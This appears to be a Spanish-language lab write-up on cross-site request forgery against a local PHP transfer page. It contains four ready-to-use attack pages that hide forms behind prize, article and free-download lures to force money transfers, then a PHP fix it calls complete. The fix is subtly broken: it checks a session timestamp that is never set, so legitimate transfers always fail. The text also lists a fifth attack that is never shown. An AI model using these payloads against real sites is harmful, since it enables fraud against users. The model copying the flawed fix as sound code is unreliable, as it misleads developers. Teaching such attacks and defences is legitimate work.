





###  EXPLOIT 1: Ataque con Auto-Submit (Original)

**Archivo:** `csrf_attack_1.html`
```html
<!DOCTYPE html>
<html>
<head>
    <title>¡Felicidades! Has ganado un premio</title>
</head>
<body>
    <h1>🎉 ¡Has ganado $10,000!</h1>
    <p>Haz clic en el botón para reclamar tu premio...</p>
    
    <!-- Formulario oculto que envía transferencia -->
    <form id="maliciousForm" method="post" action="http://localhost/transfer.php">
        <input hidden type="number" name="amount" value="1000">
    </form>

    <script>
        // Se ejecuta automáticamente al cargar la página
        document.getElementById('maliciousForm').submit();
    </script>
</body>
</html>
```

**Cómo funciona:**
1. Víctima recibe enlace engañoso (email, redes sociales)
2. Al abrir la página, el formulario se envía automáticamente
3. Se transfieren $1000 sin que la víctima lo sepa
4. La víctima cree que está reclamando un premio

**Resultado:**  Transferencia de $1000 ejecutada sin consentimiento



---

###  EXPLOIT 2: Ataque con Imagen Invisible (Stealthy)

**Archivo:** `csrf_attack_2.html`
```html
<!DOCTYPE html>
<html>
<head>
    <title>Artículo Interesante</title>
</head>
<body>
    <h1>Los 10 mejores destinos turísticos 2026</h1>
    <p>Descubre los lugares más increíbles para visitar este año...</p>
    
    <p>Lorem ipsum dolor sit amet, consectetur adipiscing elit...</p>
    
    <!-- Ataque CSRF invisible mediante iframe -->
    <iframe style="display:none" name="csrf_frame"></iframe>
    
    <form id="stealthForm" method="post" action="http://localhost/transfer.php" target="csrf_frame">
        <input hidden type="number" name="amount" value="5000">
    </form>

    <script>
        // Ejecuta después de 3 segundos (cuando el usuario está leyendo)
        setTimeout(function() {
            document.getElementById('stealthForm').submit();
        }, 3000);
    </script>
</body>
</html>
```

**Cómo funciona:**
1. Víctima visita página que parece legítima (blog, artículo)
2. Mientras lee, el formulario se envía en un iframe invisible
3. Transferencia de $5000 sin que la víctima note nada
4. La página sigue funcionando normalmente

**Resultado:**  Ataque completamente invisible, transferencia de $5000



---

###  EXPLOIT 3: Ataque Mediante GET (Si transfer.php aceptara GET)

**Archivo:** `csrf_attack_3.html`
```html
<!DOCTYPE html>
<html>
<head>
    <title>Mira este video gracioso</title>
</head>
<body>
    <h1> Video del día</h1>
    <p>¡No te pierdas este video viral!</p>
    
    <!-- Ataque mediante imagen con parámetros GET -->
    <!-- Si transfer.php aceptara GET requests: -->
    
    
    <!-- Alternativa con múltiples requests -->
    
    
    
    
    <p>Cargando video...</p>
</body>
</html>
```

**Cómo funciona:**
1. El navegador intenta cargar las "imágenes"
2. En realidad ejecuta peticiones a transfer.php
3. Múltiples transferencias simultáneas

**Resultado:**  Múltiples transferencias (si aceptara GET)

**Nota:** El código actual usa POST, pero muchas aplicaciones vulnerables aceptan GET.



---

###  EXPLOIT 4: Ataque con Botón Falso (Engaño Visual)

**Archivo:** `csrf_attack_4.html`
```html
<!DOCTYPE html>
<html>
<head>
    <title>Descarga Gratis</title>
    <style>
        .fake-button {
            padding: 15px 30px;
            background: #28a745;
            color: white;
            border: none;
            border-radius: 5px;
            font-size: 18px;
            cursor: pointer;
        }
        .fake-button:hover {
            background: #218838;
        }
    </style>
</head>
<body>
    <h1> Descarga Gratuita de Software Premium</h1>
    <p>Obtén acceso completo a nuestro software valorado en $299</p>
    
    <!-- Formulario oculto -->
    <form id="hiddenForm" method="post" action="http://localhost/transfer.php">
        <input hidden type="number" name="amount" value="3000">
    </form>
    
    <!-- Botón falso que ejecuta el ataque -->
    <button class="fake-button" onclick="executeAttack()">
        Descargar Ahora (Gratis)
    </button>

    <script>
        function executeAttack() {
            // Muestra mensaje falso
            alert('Preparando descarga...');
            
            // Ejecuta transferencia
            document.getElementById('hiddenForm').submit();
        }
    </script>
</body>
</html>
```

**Cómo funciona:**
1. Víctima cree que va a descargar software gratis
2. Al hacer clic en "Descargar", ejecuta la transferencia
3. Muestra mensaje de "Preparando descarga" para confundir
4. Se transfieren $3000

**Resultado:**  Víctima ejecuta el ataque voluntariamente (sin saberlo)





---

##  TABLA RESUMEN DE ATAQUES

| # | Tipo de Ataque | Archivo | Monto | Visibilidad | Severidad |
|---|----------------|---------|-------|-------------|-----------|
| 1 | Auto-submit | csrf_attack_1.html | $1,000 | Media | Alta |
| 2 | Iframe invisible | csrf_attack_2.html | $5,000 | Baja | Crítica |
| 3 | GET request | csrf_attack_3.html | $2,000 | Baja | Alta |
| 4 | Botón falso | csrf_attack_4.html | $3,000 | Alta | Alta |

---

##  FLUJO DEL ATAQUE CSRF
```
1. Atacante crea página maliciosa (csrf_attack.html)
   ↓
2. Víctima inicia sesión en http://localhost/transfer.php
   ↓
3. Víctima recibe enlace engañoso y hace clic
   ↓
4. Página maliciosa carga en navegador de víctima
   ↓
5. JavaScript automático envía formulario POST
   ↓
6. Navegador incluye cookies de sesión automáticamente
   ↓
7. transfer.php NO valida token CSRF
   ↓
8.  Transferencia ejecutada sin consentimiento
```

---

##  CÓDIGO SEGURO (SOLUCIÓN COMPLETA)

### transfer.php (Versión Segura)
```php
<?php
// ========================================
// SISTEMA DE TRANSFERENCIAS SEGURO
// ========================================

session_start();

// 1. GENERAR TOKEN CSRF
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// 2. SIMULAR AUTENTICACIÓN (en producción usar BD real)
if (!isset($_SESSION['user_id'])) {
    $_SESSION['user_id'] = 1;
    $_SESSION['username'] = 'usuario_demo';
    $_SESSION['balance'] = 10000;
}

// 3. RATE LIMITING
if (!isset($_SESSION['transfer_count'])) {
    $_SESSION['transfer_count'] = 0;
    $_SESSION['transfer_time'] = time();
}

// Reset cada hora
if (time() - $_SESSION['transfer_time'] > 3600) {
    $_SESSION['transfer_count'] = 0;
    $_SESSION['transfer_time'] = time();
}

$max_transfers = 10;
$message = "";
$error = "";

// 4. PROCESAR TRANSFERENCIA
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    // ====================================================
    //  VALIDACIÓN DE TOKEN CSRF (CRÍTICO)
    // ====================================================
    
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        $error = "Token CSRF inválido. Posible ataque detectado.";
        error_log("CSRF Attack Attempt from IP: " . $_SERVER['REMOTE_ADDR']);
    }
    // VERIFICAR RATE LIMIT
    else if ($_SESSION['transfer_count'] >= $max_transfers) {
        $error = "Has excedido el límite de transferencias por hora.";
    }
    // VALIDAR MONTO
    else if (empty($_POST['amount']) || !is_numeric($_POST['amount'])) {
        $error = "Monto inválido";
    }
    else if ($_POST['amount'] <= 0) {
        $error = "El monto debe ser mayor a cero";
    }
    else if ($_POST['amount'] > $_SESSION['balance']) {
        $error = "Saldo insuficiente";
    }
    // VALIDAR MONTO MÁXIMO
    else if ($_POST['amount'] > 5000) {
        $error = "El monto máximo por transferencia es $5000";
    }
    else {
        $amount = floatval($_POST['amount']);
        
        // ====================================================
        //  VALIDACIONES ADICIONALES
        // ====================================================
        
        // Validar que la sesión no haya expirado (30 minutos)
        if (!isset($_SESSION['last_activity']) || (time() - $_SESSION['last_activity'] > 1800)) {
            $error = "Sesión expirada. Por favor, inicia sesión nuevamente.";
        } else {
            // Actualizar tiempo de última actividad
            $_SESSION['last_activity'] = time();
            
            // Ejecutar transferencia
            $_SESSION['balance'] -= $amount;
            $_SESSION['transfer_count']++;
            
            $message = "✅ Transferencia exitosa de $$amount. Saldo actual: $" . $_SESSION['balance'];
            
            // Log de auditoría
            error_log("Transfer: User " . $_SESSION['username'] . " transferred $$amount from IP: " . $_SERVER['REMOTE_ADDR']);
            
            // ====================================================
            //  REGENERAR TOKEN CSRF DESPUÉS DE CADA USO
            // ====================================================
            $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
        }
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Sistema de Transferencias Seguro</title>
    
    <!--  Política de Seguridad de Contenido -->
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';">
    
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }
        
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
            padding: 20px;
        }
        
        .container {
            background: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 10px 25px rgba(0,0,0,0.2);
            width: 100%;
            max-width: 500px;
        }
        
        h2 {
            color: #333;
            margin-bottom: 10px;
        }
        
        .balance {
            background: #e8f5e9;
            padding: 15px;
            border-radius: 5px;
            margin-bottom: 20px;
            font-size: 18px;
            font-weight: bold;
            color: #2e7d32;
        }
        
        .success {
            background-color: #d4edda;
            color: #155724;
            padding: 12px;
            border-radius: 4px;
            margin-bottom: 20px;
            border-left: 4px solid #28a745;
        }
        
        .error {
            background-color: #f8d7da;
            color: #721c24;
            padding: 12px;
            border-radius: 4px;
            margin-bottom: 20px;
            border-left: 4px solid #dc3545;
        }
        
        .form-group {
            margin-bottom: 20px;
        }
        
        label {
            display: block;
            margin-bottom: 8px;
            color: #555;
            font-weight: 500;
        }
        
        input[type="number"] {
            width: 100%;
            padding: 12px;
            border: 2px solid #ddd;
            border-radius: 4px;
            font-size: 16px;
        }
        
        input[type="number"]:focus {
            outline: none;
            border-color: #667eea;
        }
        
        button {
            width: 100%;
            padding: 12px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            font-weight: 600;
            cursor: pointer;
            transition: transform 0.2s;
        }
        
        button:hover {
            transform: translateY(-2px);
        }
        
        button:active {
            transform: translateY(0);
        }
        
        .info {
            text-align: center;
            color: #666;
            font-size: 12px;
            margin-top: 20px;
        }
        
        .security-info {
            background: #fff3cd;
            padding: 10px;
            border-radius: 4px;
            margin-top: 15px;
            font-size: 12px;
            color: #856404;
        }
    </style>
</head>
<body>
    <div class="container">
        <h2> Sistema de Transferencias</h2>
        
        <div class="balance">
            Saldo Actual: $<?php echo number_format($_SESSION['balance'], 2); ?>
        </div>
        
        <?php if (!empty($message)): ?>
            <div class="success">
                <?php echo htmlspecialchars($message, ENT_QUOTES, 'UTF-8'); ?>
            </div>
        <?php endif; ?>
        
        <?php if (!empty($error)): ?>
            <div class="error">
                 <?php echo htmlspecialchars($error, ENT_QUOTES, 'UTF-8'); ?>
            </div>
        <?php endif; ?>
        
        <form method="post" action="">
            <!-- ====================================================
                  TOKEN CSRF (PROTECCIÓN CRÍTICA)
                 ====================================================
                 Este campo oculto contiene un token único que:
                 - Se genera aleatoriamente en cada sesión
                 - Se valida en el servidor antes de ejecutar la acción
                 - Previene ataques CSRF de sitios externos
            -->
            <input type="hidden" name="csrf_token" value="<?php echo htmlspecialchars($_SESSION['csrf_token'], ENT_QUOTES, 'UTF-8'); ?>">
            
            <div class="form-group">
                <label for="amount">Monto a Transferir:</label>
                <input 
                    type="number" 
                    id="amount"
                    name="amount" 
                    min="1"
                    max="5000"
                    step="0.01"
                    placeholder="Ingrese el monto"
                    required>
            </div>
            
            <button type="submit"> Transferir de Forma Segura</button>
        </form>
        
        <div class="security-info">
             Transferencias realizadas: <?php echo intval($_SESSION['transfer_count']); ?> / <?php echo intval($max_transfers); ?> por hora
        </div>
        
        <div class="info">
             Protegido contra CSRF<br>
             Sesión segura activa<br>
             Todas las transferencias son registradas
        </div>
    </div>
</body>
</html>
```

---

##  PROTECCIONES IMPLEMENTADAS

###  Contra CSRF:
- [x] **Token CSRF único** por sesión
- [x] **Validación del token** en cada petición
- [x] **Regeneración del token** después de cada uso
- [x] **Token en campo oculto** del formulario
- [x] **Logging de intentos** de ataque

---

### ATAQUES DEMOSTRADOS:
1. Auto-submit al cargar página → $1,000
2. Iframe invisible → $5,000
3. GET request con imagen → $2,000
4. Botón engañoso → $3,000
5. Fetch API moderna → $10,000

### MITIGACIÓN:
 **Token CSRF** único y validado  
 **SameSite cookies**  
 **Rate limiting**  
 **Validación de sesión**  
 **Timeout de sesión**  
 **Logging y auditoría**  


